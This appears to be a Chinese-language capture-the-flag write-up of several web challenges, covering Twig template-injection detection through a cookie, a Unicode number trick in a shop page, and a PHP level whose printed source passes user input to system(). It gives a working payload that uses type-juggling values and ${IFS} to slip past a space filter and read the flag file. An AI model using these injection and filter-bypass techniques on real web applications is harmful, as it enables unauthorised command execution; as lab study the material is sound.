


# [BJDCTF2020]Cookie is so stable
> 测试后发现在 flag.php 登录后，Cookie 中会出现一个 user 的参数，并且进一步测试后发现是 `Twig` 模板注入 ({{6*'6'}} 如果回显是 36 时则是 Twig，是 666666 时则是 Jinja)


> 直接用之前总结 `Twig 模板引擎 SSTI 注入` 的链子打就行


# [ASIS 2019]Unicorn shop
> 进入题目是一个购买的页面，先随意输入一个 id 后发现出现报错



> 测试后发现当输入的价格不是个位数是会出现报错 `Only one char(?) allowed!`，观察网页源代码发现解题点


> 获得 Flag 需要找到一个比 1337 大的数字，这里需要了解一下 `utf-8编码` 的转换安全问题，在 [compart](https://www.compart.com/en/unicode/) 中找一个符合条件的字符即可，例如：`%E1%8D%BC`



# [WUSTCTF2020]朴实无华
> 访问 `robots.txt` 发现提示 `fAke_f1agggg.php`，访问后在 Response 中发现关键点：`Look_at_me: /fl4g.php`


> 访问 `/fl4g.php` 后拿到解题源码

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "鎴戜笉缁忔剰闂寸湅浜嗙湅鎴戠殑鍔冲姏澹�, 涓嶆槸鎯崇湅鏃堕棿, 鍙槸鎯充笉缁忔剰闂�, 璁╀綘鐭ラ亾鎴戣繃寰楁瘮浣犲ソ.</br>";
    }else{
        die("閲戦挶瑙ｅ喅涓嶄簡绌蜂汉鐨勬湰璐ㄩ棶棰�");
    }
}else{
    die("鍘婚潪娲插惂");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "鎯冲埌杩欎釜CTFer鎷垮埌flag鍚�, 鎰熸縺娑曢浂, 璺戝幓涓滄緶宀�, 鎵句竴瀹堕鍘�, 鎶婂帹甯堣桨鍑哄幓, 鑷繁鐐掍袱涓嬁鎵嬪皬鑿�, 鍊掍竴鏉暎瑁呯櫧閰�, 鑷村瘜鏈夐亾, 鍒灏忔毚.</br>";
   else
       die("鎴戣刀绱у枈鏉ユ垜鐨勯厭鑲夋湅鍙�, 浠栨墦浜嗕釜鐢佃瘽, 鎶婁粬涓€瀹跺畨鎺掑埌浜嗛潪娲�");
}else{
    die("鍘婚潪娲插惂");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "鎯冲埌杩欓噷, 鎴戝厖瀹炶€屾鎱�, 鏈夐挶浜虹殑蹇箰寰€寰€灏辨槸杩欎箞鐨勬湸瀹炴棤鍗�, 涓旀灟鐕�.</br>";
        system($get_flag);
    }else{
        die("蹇埌闈炴床浜�");
    }
}else{
    die("鍘婚潪娲插惂");
}
?>
```
> Payload：`num=2e4&md5=0e215962017&get_flag=nl${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag`


# [De1CTF 2019]SSRF Me
